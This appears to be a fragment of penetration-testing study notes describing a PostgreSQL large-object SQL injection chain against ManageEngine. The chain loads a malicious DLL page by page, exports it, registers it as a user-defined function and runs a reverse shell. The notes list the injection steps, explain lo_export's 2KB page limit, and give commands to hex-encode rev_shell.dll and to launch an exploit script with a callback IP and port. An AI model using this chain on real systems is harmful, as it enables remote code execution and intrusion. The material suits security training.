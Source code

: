 (The PostgreSQL Global Development Group, 2020), https://www.postgresql.org/docs/9.2/static/largeobjects.html ↩︎

#### Large Object Reverse Shell

Create a DLL file that will contain our malicious code
Inject a query that creates a large object from an arbitrary remote file on disk
Inject a query that updates page 0 of the newly created large object with the first 2KB of our DLL
Inject queries that insert additional pages into the pg_largeobject table to contain the remainder of our DLL
Inject a query that exports our large object (DLL) onto the remote server file system
Inject a query that creates a PostgreSQL User Defined Function (UDF) based on our exported DLL
Inject a query that executes our newly created UDF

lo_import also creates additional metadata in other tables as well, which are necessary for the lo_export function to work properly. 

we need to deal with the 2KB page boundaries. You may wonder why we don't simply put our entire payload into page 0 and export that. Sadly, that won't work. If any given page contains more than 2048 bytes of data, lo_export will fail. This is why we have to create additional pages with the same loid.

Reverse shell:

```
xxd rev_shell.dll | cut -d" " -f 2-9 | sed 's/ //g' | tr -d '\n' > rev_shell.dll.txt
```


```
python3 manage_engine_sqli.py manageengine:8443 192.168.45.237 4444
```

